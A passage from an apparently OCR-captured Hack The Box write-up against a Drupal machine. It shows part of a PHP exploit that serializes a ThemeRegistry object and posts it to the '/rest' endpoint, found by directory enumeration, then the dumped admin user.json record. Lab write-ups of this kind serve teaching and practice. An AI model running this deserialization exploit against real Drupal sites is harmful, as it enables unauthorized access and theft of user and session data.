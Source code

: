 function cache_reset($endpoint, $cache)

{

$tr = new ThemeRegistry($cache, $endpoint, null, null);

cache_edit($tr);

}

function cache_edit($tr)

{

global $browser;

$data = serialize([$tr]);

$json = $browser->post(TYPE_PHP, $data);

}

# Utils

function x($message)

{

print(“$message\n”);

}

function e($message)

{

x($message);

exit(1);

}

function store($name, $data)

{

$filename = “$name.json”;

file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));

x(“Stored $name information in $filename”);

}

The exploit needs a rest api path in the web server, one of the output from DirBuster was Dir found: /rest/ — 200

So we can set the endpoint_path variable to $endpoint_path = ‘/rest’;
once we run the the exploit we get two files user.json and session.json

user.json
{
 “uid”: “1”,
 “name”: “admin”,
 “mail”: “drupal@hackthebox.gr”,
 “theme”: “”,
 “created”: “1489920428”,
 “access”: “1492102672”,
 “login”: 1505051198,
 “status”: “1”,
 “timezone”: “Europe\/Athens”,
 “language”: “”,
 “picture”: null,
 “init”: “drupal@hackthebox.gr”,
 “data”: false,